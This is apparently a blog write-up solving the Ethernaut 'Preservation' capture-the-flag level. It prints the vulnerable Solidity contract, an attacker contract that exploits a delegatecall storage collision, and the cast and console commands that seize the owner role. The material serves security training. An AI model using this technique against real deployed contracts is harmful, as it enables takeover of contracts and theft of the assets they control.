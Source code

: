 ```yaml
---
title: Ethernaut - Preservation - Solution
date: '2024-06-10'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Preservation CTF
---
```


# Ethernaut - Preservation - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

## Solution

The goal of this challenge is to become the `owner`.

If you don't have a solid understanding of `delegatecall` and storage collisions yet, [this blog post](https://blog.finxter.com/delegatecall-or-storage-collision-attack-on-smart-contracts/) is a great introduction.

We'll execute our attack via three steps:

1. Deploy an attacker contract with a `setTime()` function and design its storage layout such that a call to `setTime()` will lead to a collision with the level's `owner`.
2. Use either the `setFirstTime()` or the `setSecondTime()` function to set `timeZone1Library` to our attacker's address.
3. Use `setFirstTime()` to set `owner` to our EOA's address.

For step 1, we'll deploy the following attacker contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract PreservationAttacker {
    uint256 occupyFirstSlot = 42;
    uint256 occupySecondSlot = 42;
    uint256 owner;

    function setTime(uint256 _owner) external {
        owner = _owner;
    }
}
```

In my case, the address of the deployed `PreservationAttacker` reads 0x2124E3b48A11008d36171b9a7e8315fE572E341C.

Next, we can either use `setFirstTime()` or `setSecondTime()` to set `timeZone1Library` to this address. 
However, since those functions expect a `uint256` as their parameter, we must first convert the hex representation of our address to decimal via

```bash
cast to-dec 0x2124E3b48A11008d36171b9a7e8315fE572E341C
# Result: 189219358187588105730525764077460654362006008860
```

and subsequently use the Ethernaut console to call the setter:

```javascript
await contract.setFirstTime("189219358187588105730525764077460654362006008860")
```

Notice that we pass the big number as a string to avoid JavaScript-related overflow issues during the call.

With our `timeZone1Library` set to our attacker, we can now use `setFirstTime()` to set the `owner` to our EOA's address.
Assuming that this address is 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4, we can first convert it to decimal representation

```bash
cast to-dec 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4
# Result: 520786028573371803640530888255888666801131675076
```

and then make the call via the Ethernaut console

```javascript
await contract.setFirstTime("520786028573371803640530888255888666801131675076")
```

making us the `owner` and completing the challenge.